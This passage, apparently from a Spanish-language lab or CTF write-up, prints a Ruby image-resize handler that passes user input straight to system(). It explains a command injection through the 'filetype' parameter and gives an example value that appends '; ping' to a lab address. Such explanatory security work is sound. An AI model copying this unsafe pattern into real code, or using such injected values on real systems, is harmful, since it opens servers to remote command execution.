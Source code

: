 {% highlight ruby %}
  filename = photo.sub('.jpg', '') + '_' + dimensions + '.' + filetype
  response['Content-Disposition'] = "attachment; filename=#{filename}"

  if !File.exists?('resized_images/' + filename)
    command = 'convert source_images/' + photo + ' -resize ' + dimensions + ' resized_images/' + filename
    puts "Executing: #{command}"
    system(command)
  else
    puts "File already exists."
  end

  if File.exists?('resized_images/' + filename)
    halt 200, {}, IO.read('resized_images/' + filename)
  end

  #message = 'Failed to generate a copy of ' + photo + ' resized to ' + dimensions + ' with filetype ' + filetype
  message = 'Failed to generate a copy of ' + photo
  halt 500, message
end
{% endhighlight %}

Toma el parametro `filetype`, se lo agrega a la variable `filename` y ejecuta un comando con la 
variable. El comando se ejecutaría de la siguiente forma:

`convert source_images/my_image.jpg -resize 3000x2000 resized_images/my_image_3000x2000.png`

Al no validar correctamente `filetype`, se convertiría en esto si intentaramos inyectar un comando:

`convert source_images/my_image.jpg -resize 3000x2000 resized_images/my_image_3000x2000.png; ping -c 1 10.10.14.21`

y esta sintaxis es válida en Linux, asi que se ejecutaría el segundo comando sin ningún problema.
